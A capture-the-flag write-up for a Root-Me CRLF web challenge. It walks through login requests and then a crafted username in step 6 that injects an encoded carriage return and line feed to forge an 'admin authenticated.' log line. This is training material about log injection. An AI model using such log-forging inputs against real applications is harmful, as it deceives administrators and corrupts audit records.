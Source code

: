 # Challenge18: CRLF

## Ref
+ w3schools: https://www.w3schools.com/tags/ref_urlencode.ASP

## Solution

1. This challenge is about '\r' and '\n' symbols
2. Open Burp suite and go to the target url: http://challenge01.root-me.org/web-serveur/ch14/
3. Try to login with your information, for example:
```
GET web-serveur/ch14/username=dangphuc&password=godyzac

Result:
dangphuc failed to authenticate.
```
4. After a while, i realize that we don't need to send password to login:

```
GET web-serveur/ch14/username=dangphuc

Result:
dangphuc failed to authenticate.
```
    
5. This is the sample logs:

```
admin authenticated.
guest failed to authenticate.
```
    
6. So now think of CRLF('\r' & '\n'), Can we log the same as 5 ?

```
GET web-serveur/ch14/username=admin%20authenticated.%0D%0Aguest
                                ^
                                |
                                |
                    username = "admin authenticated.\r\nguest"
```

7. When you make the request in step 6, you will get the flag :)
